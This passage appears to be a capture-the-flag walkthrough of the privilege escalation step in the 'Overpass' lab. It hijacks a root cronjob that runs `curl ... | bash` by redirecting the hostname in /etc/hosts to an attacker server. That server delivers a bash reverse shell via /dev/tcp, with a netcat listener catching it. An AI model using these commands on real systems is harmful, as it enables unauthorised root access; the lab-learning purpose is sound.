 ### Privilege escalation
Lets start by getting [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) on the target. It helps a lot to determine possible attacking vectors. Just download the linpeas.sh on the attacker machine, start a http-server with `python3 -m http.server 8080`and curl it on the target with `curl attackerip:8080/linpeas.sh -o linpeas.sh`. After running and going through the output, this catched my attention:
`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash `. The target does run a cronjob every minute as *root*. It curls a file (buildscript.sh) from a specific IP and executes it. "overpass.thm" is basically just a hostname which is mapped to a specific IP-address. If we are able to change the corresponding IP-address to one we control, we could upload whatever we want and it would get executed, as long as we keep the path correct (<OUR-IP>/downloads/src/buildscript.sh). The necessary information about these hostnames are within /etc/hosts and luckily, the user james has write-access to it! 
1. edit the associated IP for overpass.thm - `vim /etc/hosts`
```
127.0.0.1 localhost
127.0.1.1 overpass-prod
<OUR-IP> overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

2. create a malicious *buildscript.sh* containing code to start a reverse shell -> remember the path needs to be the same as in the cronjob
```
user@parrot /tmp $ mkdir -p downloads/src   
user@parrot /tmp $ cd downloads/src 
user@parrot /tmp/downloads/src $ echo "/bin/bash -i >& /dev/tcp/10.9.251.98/9001 0>&1" > buildscript.sh
user@parrot /tmp/downloads/src $ 
```

3. start up a python3 server
```
user@parrot /tmp $ sudo python3 -m http.server 80
```

4. prepare a netcat listener to catch the shell
```
user@parrot ~ $ nc -lvnp 9001
```

5. profit
```
root@overpass-prod:~# ls /root          
ls /root
buildStatus
builds
go
root.txt
src
root@overpass-prod:~# cat root.txt
cat root.txt
```
Output: thm{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}

